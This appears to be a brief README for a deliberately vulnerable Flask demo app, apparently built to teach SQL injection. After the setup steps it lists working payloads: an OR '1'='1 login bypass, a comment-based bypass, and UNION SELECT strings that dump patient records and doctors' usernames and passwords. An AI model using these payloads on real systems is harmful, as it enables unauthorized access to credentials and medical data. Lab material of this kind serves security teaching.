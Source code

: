 To run the app clone the repository, activate your virtual environment and install requirements.
Then run the line "flask run".

SQL injection

login
Usename and password= <<' OR '1'='1>>
or only use <<yaoming' -->>   without knowing the password
or use username   <<admin' UNION SELECT * FROM users -->>

search item

' OR '1'='1 : get all patient data
'UNION SELECT password, username FROM Doctor --  get usernames
'UNION SELECT uername,passsword FROM Doctor --  get passwords
